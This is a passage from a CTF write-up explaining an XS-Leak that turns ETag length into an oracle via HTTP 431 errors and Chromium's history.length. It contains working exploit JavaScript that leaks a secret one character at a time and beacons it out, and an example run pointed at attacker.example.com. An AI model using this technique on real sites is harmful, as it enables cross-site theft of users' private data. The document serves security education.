      await sleep(100);
    };

    const prepared = new Set();
    const prepare = async (prefix) => {
      if (prepared.has(prefix)) return;
      prepared.add(prefix);

      const initialLen = 443;
      const part = "\n        <li>" + "</li>\n      ";

      let len = initialLen;
      while (16 ** 3 - len - part.length - 1 > 0) {
        const note = prefix.padEnd(
          Math.min(1024, 16 ** 3 - len - part.length - 1),
          "*"
        );
        len += note.length + part.length;
        await createNote(note);
      }
    };

    let win = open("about:blank");

    const getUrl = (prefix, padLength, nonce) =>
      `${BASE_URL}/?${new URLSearchParams({
        query: prefix,
        pad: nonce.padEnd(padLength, "x"),
      })}`;

    const got431 = async (prefix, padLength) => {
      await prepare(prefix);

      const nonce = (Math.random() + "").padEnd(20, "0");
      const url = getUrl(prefix, padLength, nonce);

      const len1 = win.history.length;

      win.location = url;
      await sleep(100);
      win.location = url;
      await sleep(100);
      win.location = "about:blank";
      await sleep(100);
      const len2 = win.history.length;

      const diff = len2 - len1;
      // If a 431 error occurs: diff === 2
      // Otherwise: diff === 3

      if (len2 > 45) {
        // In Chromium, the maximum number of `history.length` is 50.
        // ref. https://source.chromium.org/chromium/chromium/src/+/df9f2fd80f9b8697c877c2c7e7f19d9f389291b8:third_party/blink/public/common/history/session_history_constants.h;l=11
        win.close();
        win = open("about:blank");
        await sleep(100);
      }

      debug({ prefix, len1, len2, diff });
      return diff === 2;
    };

    let left = 10000;
    let right = 18000;
    const getThreshold = async () => {
      left -= 50;
      while (right - left > 1) {
        const mid = (right + left) >> 1;
        if (await got431(known + "X", mid)) {
          right = mid;
        } else {
          left = mid;
        }
      }

      return left;
    };

    while (true) {
      const threshold = await getThreshold();
      debug({ length: known.length, threshold });
      let exists = false;
      for (const c of CHARS) {
        if (await got431(known + c, threshold)) {
          known += c;
          exists = true;
          navigator.sendBeacon("/leak", known);
          break;
        }
      }
      if (!exists) break;
    }

    const flag = known + "}";
    navigator.sendBeacon("/flag", flag);
  </script>
</body>
```

Full exploit:

- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202512_SECCON_CTF_14_Quals/web/impossible-leak/solution/index.html

Example run:
```javascript
$ docker run -it --rm \
    -e BOT_BASE_URL=http://impossible-leak.seccon.games:1337 \
    -e CONNECTBACK_URL=http://attacker.example.com \
    -p 8080:8080 \
    (docker build -q ./solution)
Report: 1
[DEBUG] {"prefix":"SECCON{X","len1":0,"len2":3,"diff":3}
[DEBUG] {"prefix":"SECCON{X","len1":3,"len2":5,"diff":2}
[DEBUG] {"prefix":"SECCON{X","len1":5,"len2":8,"diff":3}
...
[DEBUG] {"prefix":"SECCON{X","len1":30,"len2":32,"diff":2}
[DEBUG] {"length":7,"threshold":15799}
[DEBUG] {"prefix":"SECCON{_","len1":32,"len2":35,"diff":3}
[DEBUG] {"prefix":"SECCON{a","len1":35,"len2":38,"diff":3}
[DEBUG] {"prefix":"SECCON{b","len1":38,"len2":41,"diff":3}
[DEBUG] {"prefix":"SECCON{c","len1":41,"len2":44,"diff":3}
[DEBUG] {"prefix":"SECCON{d","len1":44,"len2":47,"diff":3}
[DEBUG] {"prefix":"SECCON{e","len1":0,"len2":3,"diff":3}
[DEBUG] {"prefix":"SECCON{f","len1":3,"len2":6,"diff":3}
[DEBUG] {"prefix":"SECCON{g","len1":6,"len2":9,"diff":3}
[DEBUG] {"prefix":"SECCON{h","len1":9,"len2":12,"diff":3}
[DEBUG] {"prefix":"SECCON{i","len1":12,"len2":15,"diff":3}
[DEBUG] {"prefix":"SECCON{j","len1":15,"len2":18,"diff":3}
[DEBUG] {"prefix":"SECCON{k","len1":18,"len2":21,"diff":3}
{ known: 'SECCON{l' }
[DEBUG] {"prefix":"SECCON{l","len1":21,"len2":23,"diff":2}
[DEBUG] {"prefix":"SECCON{lX","len1":23,"len2":26,"diff":3}
...
{ known: 'SECCON{lu' }
[DEBUG] {"prefix":"SECCON{lu","len1":9,"len2":11,"diff":2}
[DEBUG] {"prefix":"SECCON{luX","len1":11,"len2":14,"diff":3}
[DEBUG] {"prefix":"SECCON{luX","len1":14,"len2":17,"diff":3}
...
{ flag: 'SECCON{lumiose_city}' }
```

## Other Cases

In this writeup, we turned an ETag length difference into an XS-Leak oracle. A closely related variant exists where the oracle relies on a binary state: **Does the response have an ETag or not?**

Here is an example from a past CTF (as an unintended solution) where this applies:

- Ippon Practice Tool - Full Weak Engineer CTF 2025
    - https://github.com/tepel-chen/My-CTF-Challs/tree/main/Full%20Weak%20Engineer%20CTF%202025/Ippon%20Practice%20Tool

It is an XS-Leak challenge where HTML injection exists (CSP prevents XSS). However, using the technique described in this article, it becomes solvable even **without** relying on HTML injection.

In the application, normal pages include an ETag. On the other hand, the `GET /search` API uses `res.end` when no results are found, which results in the ETag being omitted entirely. This makes the "ETag presence vs. absence" observable using the same oracle approach described here.

```javascript {8} title="https://github.com/tepel-chen/My-CTF-Challs/blob/main/Full%20Weak%20Engineer%20CTF%202025/Ippon%20Practice%20Tool/attachment/app/index.ts#L172-L180"
  const answers = await db.all(
    `SELECT a.id, o.text, a.created_at FROM answer AS a INNER JOIN odai AS o ON a.odai=o.id WHERE owner = ? AND content LIKE ? ESCAPE '\\' ORDER BY created_at DESC `,
    uid,
    `%${escapeLike(q)}%`
  );

  if (answers.length === 0) {
    return res.end("<html><body>Not found. <a href='/'>Home</a></body></html>");
  }
```

## Conclusion

I showed that it is possible to leak the length of an ETag from a cross-site page, turning it into an XS-Leak oracle by leveraging 431 errors and a History API behavior in Chromium.

The ETag header can become a side channel :)
